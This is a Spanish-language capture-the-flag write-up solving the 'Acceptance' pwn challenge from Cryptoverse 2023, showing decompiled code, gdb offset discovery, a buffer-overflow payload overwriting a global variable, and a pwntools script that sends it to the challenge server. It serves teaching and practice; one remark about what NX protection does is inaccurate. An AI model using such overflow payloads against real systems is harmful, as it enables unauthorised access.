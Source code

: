 ```yaml
---
author: naibu3
---
```


# Acceptance - cyptoverse

Es el reto *easy* de la categoría *[pwn](obsidian://open?vault=hacking_notes&file=pwn%2FIntroduction%20to%20pwn)* del *cryptoverse 2023*. La descriptción del reto es:


**Pwn/Acceptance**

Easy - 95 solves / 323 points

I want to go out but I need to ask my mom first. Help me guys!

`nc 20.169.252.240 4000`

Además nos dan un binario llamado `acceptance`.

----

## Reconocimiento

Comenzamos lanzando [[checksec]] y `file`:

```bash
file acceptance
```
```file
acceptance: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=75881c0c4011726772f5c71b56300328b383bf7b, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec acceptance
```
```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que se trata de un binario de 64-bits (`LSB`), y que tiene habilitada la protección *NX*, sin embargo no hay de qué preocuparse, ya que como el binario debemos explotarlo en un servidor, esta protección evita que alguien pueda acceder maliciosamente al mismo.

Si tratamos de ejecutarlo, veremos que nos pide ayuda para escaparse sin permiso de su madre. Si introducimos cualquier cosa, por ejemplo `hola`, nos da un mensaje de *error*:

```acceptance
I wanna go out but I need mom's permisison.
Help him: hola
Arg! Why don't you help me :((
```

Vamos a ver si el programa se rompe al introducir muchos carácteres:

```acceptance
I wanna go out but I need mom's permisison.
Help him: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You ask a lot and she suspect me :((
```

Parece que el mensaje de error ha cambiado. Vamos a intentar descompilar el código con [[ghidra]]:

```c
undefined8 print_flag(void)
{
  uint *puVar1;
  undefined local_38 [44];
  int local_c;
  
  if (accept < 1) {
    if (accept == -1) {
      local_c = open("/home/me/flag.txt",0);
      if (local_c == -1) {
        puVar1 = (uint *)__errno_location();
        fprintf(stderr,"Error num %d\n",(ulong)*puVar1);
      }
      else {
        read(local_c,local_38,0x22);
        close(local_c);
        write(1,local_38,0x22);
        putchar(10);
      }
    }
    else {
      puts("Nah, You are a liar!");
    }
  }
  else {
    puts("You ask a lot and she suspect me :((");
  }
  return 0;
}
```
```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  puts("I wanna go out but I need mom\'s permisison.");
  printf("Help him: ");
  read(0,say,0x24);
  if (accept == 0) {
    puts("Arg! Why don\'t you help me :((");
  }
  else {
    print_flag();
  }
  return 0;
}
```

Vemos que hay una función `print_flag` además de `main`, y que sólo se llama si la variable `accept` es distinta de 0. Como el segundo output que hemos recibido es de la función `print_flag`, podemos pensar que al sobrepasar el tamaño de la variable `say`, hemos sobreescrito el valor de `accept`, llamando a `print_flag`.

### Prueba con gdb-pwndbg

Ahora, con [[gdb]]-[[pwndbg]] y python2, vamos a comprobar si nuestra teoría es cierta. Para ello, debemos encontrar a partir de qué número de carácteres se sobreescribe `accept`.

Si descompilamos `print_flag`, podemos ver la dirección de `accept`:

```gdb-pwndbg
disassemble print_flag
```
```gdb-pwndbg
0x00000000004011fd <+8>:	mov    eax,DWORD PTR [rip+0x2ecd]        # 0x4040d0 <accept>
```

En gdb-pwndbg utilizamos `cyclic` para generar una secuencia de letras. Establecemos un *break point* en `print_flag` y ejecutamos:

```gdb-pwndbg
cyclic 100
```
```cyclic
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```gdb-pwndbg
break print_flag
```

```gdb-pwndbg
run
```
```acceptance
I wanna go out but I need mom's permisison.
Help him: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Una vez detenidos en el *break point*, podemos ver el valor de `accept` con:

```gdb-pwndbg
x 0x4040d0    #Direccion de accept
```
```0x4040d0
0x4040d0 <accept>:	0x61616165
```

Si decodificamos ese valor, corresponde a `aaae`. Debemos tener en cuenta que como es *LSB* o *little-endian*, está al revés (los bits menos significativos a la izquierda). Por lo que dentro de la cadena de antes los digitos correspondientes a `accept` serían:

```
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaEAAAaaaa
```

Es decir 32 bits de *offset*, o de desplazamiento hasta `accept`. Vamos a probar a generar una cadena con python2:

```bash
python2 -c 'print 32*"a" + "BBBB"'
```
```payload
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB
```

Si repetimos el procedimiento anterior pasando dicho payload, `accept` contiene:

```gdb-pwndbg
0x4040d0 <accept>:	0x42424242
```

Que si lo decodificamos es `BBBB`.


## Explotación (en local)

Como vimos al descompilar el código, para que se imprima la flag, `accept` debe valer `-1`. En 4 digitos hexadecimales sería `0xffffffff`, como no podemos copiar y pegar carácteres hexadecimales (por problemas de conversión), vamos a generar el payload con python2:

```bash
python2 -c 'print 32*"a" + "\xff\xff\xff\xff"' > payload
```
> Es la misma línea de antes pasando -1 en hexadecimal y redirigiendo la salida a un fichero.

Si probamos a ejecutar, debería salir algo así:

```bash
./acceptance < payload
```
```acceptance
I wanna go out but I need mom's permisison.
Help him: Error num 2
```

Esto se debe a que está tratando de listar el fichero `/home/me/flag.txt` pero no existe en nuestro equipo. Ya hemos conseguido resolver el reto en local!


## Explotación (server)

Como el binario corre en un servidor debemos explotarlo ahí para recuperar la flag. Todo el proceso lo haremos mediante un script en python3 con [[pwntools]]:

```python
#!/bin/python3

from pwn import *   # Import pwntools

nc = remote('20.169.252.240', 4000)   # Conexion con el server

line = nc.recvline()   # "I wanna go out but I need mom's permisison."
print(line)

nc.sendlineafter(b':', b'a'*32 + p64(0xffffffff))   # After "Help him:" sends payload (32*a + "-1") encoded 64-bit hex

print(nc.recvall().decode())   # Prints flag, decode is to remove b''

nc.close()   # Closes connection
```

Al ejecutarlo debería devolver:

```bash
./script.py
```
```acceptance
[+] Opening connection to 20.169.252.240 on port 4000: Done
b"I wanna go out but I need mom's permisison.\n"
[+] Receiving all data: Done (35B)
[*] Closed connection to 20.169.252.240 port 4000
 cvctf{Y34h_1_c4N_G0_n0w_tH4nK_y4u}
```

Enhorabuena! Has resuelto el reto!